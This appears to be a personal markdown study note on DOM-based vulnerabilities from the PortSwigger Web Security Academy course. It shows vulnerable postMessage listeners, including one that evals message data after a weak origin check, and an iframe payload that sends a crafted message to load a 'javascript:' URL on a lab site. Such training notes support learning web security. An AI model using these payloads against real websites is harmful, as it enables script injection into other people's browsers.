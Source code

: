 # DOM Based Vulnerability

course link: https://portswigger.net/web-security/dom-based

* Reflected data
* Stored data
* Web messages: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source
  * The key is when website has eventListener that listen to window.postMessage
  ```html
    window.addEventListener('message', function(e) {
      if (e.origin.indexOf('normal-website.com') > -1) {
        eval(e.data);
      }
    });
  ```
  you can use `iframe` to send message to exploit the DOM-based vulnerabilities

  e.g.
  target website has this:

  ```html
      window.addEventListener('message', function(e) {
          var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
          document.body.appendChild(iframe);
          try {
              d = JSON.parse(e.data);
          } catch(e) {
              return;
          }
          switch(d.type) {
              case "page-load":
                  ACMEplayer.element.scrollIntoView();
                  break;
              case "load-channel":
                  ACMEplayer.element.src = d.url;
                  break;
          }
      }, false);
  ```
  
  you can do this:

  ```html
    <iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
  ```